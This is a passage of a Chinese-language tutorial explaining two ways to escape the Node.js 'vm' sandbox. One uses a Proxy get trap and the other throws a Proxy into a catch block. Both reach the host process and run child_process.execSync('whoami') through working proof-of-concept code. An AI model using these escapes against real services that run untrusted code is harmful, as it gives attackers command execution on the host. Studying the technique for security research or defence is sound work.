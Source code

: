 #### Proxy劫持Get逃逸

[Proxy 和 Reflect - 掘金](https://juejin.cn/post/6844904090116292616)

如果沙箱外没有执行字符串的相关操作来触发这个toString，并且也没有可以用来进行恶意重写的函数，我们可以用`Proxy`来劫持属性。

JavaScript 规范中， `[[Get]]`，用于读取属性的内部方法， `[[Set]]`，用于写入属性的内部方法，等等。这些方法仅在规范中使用，我们不能直接通过方法名调用它们。

我们可以利用`Proxy`绑架其调用属性的方法。代码如下：

```js
const vm = require("vm");

const script = 
`
(() =>{
    const a = new Proxy({}, {
        get: function(){
            const cc = arguments.callee.caller;
            const p = (cc.constructor.constructor('return process'))();
            return p.mainModule.require('child_process').execSync('whoami').toString();
        }
    })
    return a
})()
`;
const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log(res.abc);
console.log("a" + res);
```

在`const res = vm.runInContext(script, context)`中，`res`获得到了逃逸出来的`Proxy`对象，在下一行调用任意一个属性（不一定需要这个属性存在）时，可以调用`[[get]]`方法，进而执行恶意代码。

触发 `toString` 的常见场景：字符串拼接（`'a' + obj`）、模板字符串（``${obj}``）、显式调用 `String(obj)`、某些 `console`/inspect 操作（取决于实现），或 `obj + ''`。所以有多种办法可以调用。

#### 异常捕获与处理逃逸

一些情况下，代码中不会给出res对象，也就是说执行沙箱后没有返回值被接收。对此可以考虑使用异常处理：

```js
const vm = require("vm");

const script = 
`
    throw new Proxy({}, {
        get: function(){
            const cc = arguments.callee.caller;
            const p = (cc.constructor.constructor('return process'))();
            return p.mainModule.require('child_process').execSync('whoami').toString();
        }
    })
`;
try {
    vm.runInContext(script, vm.createContext(Object.create(null)));
}catch(e) {
    console.log("error:" + e) 
}
```
